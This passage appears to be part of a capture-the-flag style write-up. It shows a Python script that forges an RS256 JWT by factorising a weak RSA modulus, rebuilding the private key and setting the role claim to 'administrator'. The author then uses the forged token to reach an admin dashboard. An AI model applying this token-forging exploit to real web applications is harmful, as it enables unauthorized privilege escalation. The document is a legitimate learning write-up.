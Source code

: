 ```
    # Generate public key
    public_key = private_key.public_key()

    # Return private and public keys
    return private_key, public_key

def forge_jwt(cur_jwt, pub_key, priv_key):
    # Decode the current JWT
    jwt_data = jwt.decode(cur_jwt, pub_key, algorithms=["RS256"])
    # Modify the role value to 'administrator'
    jwt_data["role"] = "administrator"
    # Re-encode the forged JWT
    forged_jwt = jwt.encode(jwt_data, priv_key, algorithm="RS256")
    # Return forged JWT
    return forged_jwt

def main():
    current_jwt = input("[?] Enter Current JWT: ")
    # Get the modulus (n)
    n = get_modulus(current_jwt)
    # Factorise the weak modulus to get p and q
    p, q = factorise_n(n)
    # Generate public and private keys
    private_key, public_key = generate_public_private_key(n, p, q)
    # Generate forged JWT
    forged_jwt = forge_jwt(current_jwt, public_key, private_key)
    # Print the new forged JWT
    print(f"\n[*] Forged JWT: {forged_jwt}")

if __name__ == '__main__':
    main()
```
As I was already logged in on the website, I opened the **Developer Tools** and copied the JWT named `X-AUTH-Token`.\
Running my script and pasting in my JWT, it generated a new JWT for me which contained **administrator** as the **role** value. 

Finally, I copied the new JWT and replaced my current JWT with the new one whilst being one the `/dashboard` page. Once refreshing the page, the web application registered that my JWT signified that I was an administrator, I was redirected to `/admindashboard`!
